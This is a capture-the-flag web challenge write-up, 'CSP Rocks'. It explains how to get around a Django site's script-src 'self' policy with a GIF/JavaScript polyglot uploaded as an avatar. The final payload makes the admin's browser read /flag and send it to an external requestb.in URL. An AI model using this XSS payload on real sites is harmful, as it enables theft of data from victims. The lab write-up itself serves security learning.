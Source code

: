 # CSP Rocks
**Category:** Web
**Points:** 200
**Keyword:** xss, csp, httponly

**Description:**
> Find a way to trick admin to visit flag page for you. Don't worry he's checking all of user's 
profile pages each 30 seconds.

**Challenge hints:**
- Check page errors,
- Admin is not using chrome or firefox. 
- Sometimes it's better to trick someone to stole from it. 3- 

**Technologies used:**
Django + PhantomJS + Selenium + Supervisor

## Config
```
virtualenv2 venv
source venv/bin/activate
pip install -r requirements.txt
```

And run this commands as a service with supervisor:
```
python manage.py check_profiles
```


## Solution
First register and login with your credentials.

There is a comment in first page about "csp", that leads to a hint for users to know that this site is protected with csp
Checking index page with burpsuite will give use below response headers:
```
HTTP/1.0 200 OK
Date: Sun, 21 Jan 2018 05:35:36 GMT
Server: WSGIServer/0.1 Python/2.7.13
Vary: Cookie
X-Frame-Options: SAMEORIGIN
Content-Type: text/html; charset=utf-8
Content-Length: 3618
Content-Security-Policy: script-src 'self'; style-src 'self'; default-src 'all'; img-src 'self'; connect-src 'self'; font-src 'self'
```
Also there is another hint in "index" page. An image about django is provided in the page,
But is not rendered cause of csp violations.
```
Content Security Policy: The page’s settings blocked the loading of a resource at http://www.unixstickers.com/image/cache/data/stickers/django/django.sh-600x600.png (“img-src http://localhost:8001”).
```

Surfing around the website, There is not much things to do. except the edit profile section that seem
to be vulnerable. But what we can do about it!

There is a xss vulnerability in description field, But there is a limitation about 80 characters. 
So we can't perform big interesting attacks unless we import our payload from external source.
But as we know csp doesn't allow us to do this so. Cause of "script-src: self" rule.

There is also a image upload section. Maybe we can use that for our attack. But there is limitation
on upload of only images with content-type of png,jpg,gif and jpeg.

**Final payloads:**
Create a gif file with below content:
```
GIF89a/*.......�/=0;var xhr = new XMLHttpRequest();
xhr.open('GET', '/flag');
xhr.onload = function() {
    if (xhr.status === 200) {
        var arr = xhr.responseText.match(/<h3 id="flag">([\w\W\t\s]*)<\/h3>/gi) || [""];
        document.location = 'https://requestb.in/15iwn8z1?text=' + arr;
    }
};
xhr.send()
```
Add code below to description:
```
<script src="http://localhost:8001/media/avatar/test_lV0APfy.gif"></script>
```
Remember to put the location of your image in src section.

After a while admin will visit your page and flag will be send to you...

## References

- http://devalias.net/devalias/2016/09/16/ctf-snippets-xss-gif/
- https://blackpentesters.blogspot.com.au/2013/08/gif-image-xss.html
- https://github.com/0xdevalias/devalias.net/blob/master/_posts/2016-09-16-ctf-snippets-xss-gif.md



***Peace out - execut3***
